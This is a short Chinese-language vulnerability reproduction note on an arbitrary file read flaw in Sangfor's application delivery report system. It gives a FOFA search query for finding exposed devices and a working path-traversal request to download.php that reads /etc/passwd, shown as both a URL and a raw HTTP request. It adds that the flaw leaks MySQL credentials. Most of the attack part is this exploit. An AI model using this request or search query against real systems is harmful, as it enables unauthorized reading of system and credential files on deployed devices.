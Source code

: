 <a name="DFDZj"></a>
# 一、漏洞背景
```java
SINFOR AD是深信服最新推出的应用交付系列设备，其突出特色就是SINFOR AD的智能分析功能。深信服应用交付报表系统存在任意文件读取漏洞,攻击者利用漏洞可读取设备中的指定路径文件
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="SANGFOR-应用交付报表系统"
```
<a name="TNcUl"></a>
# 三、漏洞复现
```java
http://xx.xx.xxx.xx:85/report/download.php?pdf=../../../../../etc/passwd
```
```java
GET /report/download.php?pdf=../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx:85
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719236804188-dfd4d957-65c5-4694-907a-4c1b7f7676d4.png#clientId=ud521e60a-9dae-4&from=paste&height=689&id=u1e6e42a7&originHeight=861&originWidth=960&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=244941&status=done&style=none&taskId=u69c9de41-4d37-4736-ae45-9f24a784b1a&title=&width=768)<br />这里泄露了mysql的数据库的端口、账号、密码 数据库名称等信息











